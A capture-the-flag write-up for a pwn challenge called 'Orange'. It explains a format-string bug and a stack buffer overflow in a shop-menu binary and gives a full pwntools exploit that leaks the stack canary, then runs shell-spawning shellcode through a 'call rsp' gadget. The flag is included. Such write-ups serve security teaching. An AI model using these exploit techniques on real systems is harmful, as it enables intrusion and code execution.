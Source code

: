 # Orange
Dive into the juicy depths of this challenge and see if you can squeeze out a surprise.

# Write Up

Before diving into any pwn challenge, it's crucial to examine the security mitigations applied during the compilation of the executable. The checksec tool from the pwntools suite is perfect for this:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
As the output shows, the only active mitigation is stack canary. This mitigation works by placing a special value on the stack and checking it before returning from a function to ensure that a buffer overflow has not corrupted the stack.

Running the executable reveals that the program prompts the user to enter a name, which it stores as "Buyer Name." The program then displays an Orange Shop menu with various options:

```
Enter your name: Amir

===== Orange Shop Menu =====
1. Show Cart
2. Show Balance
3. Buy Oranges
4. Checkout
5. Change Buyer Name
6. Exit
============================
Enter your choice:
```

Without access to the source code, we need to use a disassembler like IDA Pro to analyze the program's behavior in detail. Through this analysis, we identify two critical vulnerabilities:

- Stack Buffer Overflow in the set_buyer_name function.
- Format String Vulnerability in the show_cart function.
Here are the relevant code snippets:

```c
int __fastcall show_cart(__int64 a1)
{
  if ( !*a1 )
    return puts("Your cart is empty.");
  printf("Buyer: ");
  printf((a1 + 16));  // Vulnerable: format string
  printf("\nYou have %d oranges in your cart.\n", *a1);
  return printf("Total: $%.2f\n", *(a1 + 8));
}

unsigned __int64 __fastcall set_buyer_name(__int64 a1)
{
  char src[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Enter your name: ");
  __isoc99_scanf("%s", src); // Vulnerable: stack bof
  strcpy((a1 + 16), src); // Vulnerable: stack bof
  return v3 - __readfsqword(0x28u);
}
```

Given the vulnerabilities and the active mitigations, the next step is to devise an exploitation strategy. The key observations are:
- Executable Stack: The stack is executable, meaning we can inject and run shellcode from the stack.
- Stack Canary: The stack canary must be bypassed to successfully exploit the stack buffer overflow.

To bypass the stack canary, we can exploit the format string vulnerability. This vulnerability allows us to read from the stack, enabling us to leak the canary value. Once we have the canary, we can craft an exploit payload that preserves the canary while overwriting the return address to execute our shellcode.

To control the execution flow, we need to identify suitable Return-Oriented Programming (ROP) gadgets. Using the ROPgadget tool, we find the following useful gadget:

```
0x0000000000401225 : pop r8 ; pop r9 ; pop r10 ; pop r11 ; call rsp
```

This gadget ends with a call rsp instruction, which is ideal for redirecting the program's execution flow to our shellcode on the stack.

With the canary leaked and the ROP chain prepared, the final step is to execute the exploit. Here's the exploit code:
```python
from pwn import *

#context.log_level = 'debug'

elf = context.binary = ELF("./orange")
libc = elf.libc

gs = '''
bp main
continue
'''
def start():
    global gs
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("0.0.0.0", 5001)
    else:
        return process(elf.path)


def change_name(name:bytes):
    io.sendline("5")
    io.recvuntil(b'Enter your name:')
    io.sendline(name)

def buy_orange(count:int):
    io.sendline("3")
    io.recvuntil(b'Enter the number of oranges you want to buy:')
    io.sendline(str(count).encode())


def show_card():
    io.sendline("1")
    res = io.recvline()
    return res

def initial_name():
    io.recvuntil(b"name:")
    payload = f'%{17}$p'
    io.sendline(payload)

def exit_prog():
    io.sendline("6")

# comment: Find canary offset by fmt string
# for i in range(0, 50):
#     io = start()

#     initial_name()

#     io.recvuntil(b'choice:')
#     buy_orange(1)
#     io.recvuntil(b'choice:')
#     print(f'{i} - ', end='')
#     show_card()

#     sleep(1)

# Leak canary
io = start()
initial_name()
io.recvuntil(b'choice:')
buy_orange(1)
io.recvuntil(b'choice:')
canary = show_card().decode()
canary = int(canary.replace("Buyer: ","").replace("\n",""), 16)

print(f"Canary: {hex(canary)}")

shellcode = asm(shellcraft.amd64.linux.sh())

# Overwrite RIP
payload = shellcode
payload+= b'A' * (104 - len(payload))
payload+= p64(canary)
payload+= b'B' * 8
payload+= p64(0x0000000000401225)

change_name(payload)

io.interactive()
```

# Flag

`UCTF{G1l4n_0r4nge5_4r3_V3ry_d3l1c1ous}`

# Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Blockchain
- [ ] Steganography
- [ ] AI

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       350       | 500  |
